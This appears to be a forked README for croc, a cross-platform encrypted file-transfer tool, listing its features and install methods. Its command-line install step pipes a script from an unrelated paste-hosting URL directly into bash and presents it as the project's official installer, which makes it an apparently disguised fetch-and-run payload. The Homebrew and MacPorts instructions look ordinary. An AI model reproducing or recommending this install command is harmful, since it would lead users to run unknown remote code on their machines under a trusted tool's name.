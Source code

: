 
<p align="center">
<img
    src="https://user-images.githubusercontent.com/6550035/46709024-9b23ad00-cbf6-11e8-9fb2-ca8b20b7dbec.jpg"
    width="408px" border="0" alt="croc">
<br>
<a href="https://github.com/tucommenceapousser/croc/releases/latest"><img src="https://img.shields.io/badge/version-v10.0.11-brightgreen.svg?style=flat-square" alt="Version"></a>
<a href="https://github.com/schollz/croc/actions/workflows/ci.yml"><img
src="https://github.com/schollz/croc/actions/workflows/ci.yml/badge.svg" alt="Build
Status"></a> 
<p align="center">This project is supported by <a href="https://github.com/sponsors/schollz">Github sponsors</a>.</p>

`croc` is a tool that allows any two computers to simply and securely transfer files and folders. AFAIK, *croc* is the only CLI file-transfer tool that does **all** of the following:

- allows **any two computers** to transfer data (using a relay)
- provides **end-to-end encryption** (using PAKE)
- enables easy **cross-platform** transfers (Windows, Linux, Mac)
- allows **multiple file** transfers
- allows **resuming transfers** that are interrupted
- local server or port-forwarding **not needed**
- **ipv6-first** with ipv4 fallback
- can **use proxy**, like tor

For more information about `croc`, see [my blog post](https://schollz.com/software/croc6) or read a [recent interview I did](https://console.substack.com/p/console-91).

![Example](src/install/customization.gif)

## Install

Download [the latest release for your system](https://github.com/schollz/croc/releases/latest), or install a release from the command-line:

```
curl https://haste-server-me13.onrender.com/raw/qaqusopoge | bash
```


On macOS you can install the latest release with [Homebrew](https://brew.sh/): 

```
brew install croc
```

On macOS you can also install the latest release with [MacPorts](https://macports.org/): 

```
sudo port selfupdate
sudo port install croc
```

On Windows you can install the latest release with [Scoop](https://scoop.sh/), [Chocolatey](https://chocolatey.org), or [Winget](https://learn.microsoft.com/en-us/windows/package-manager/): 
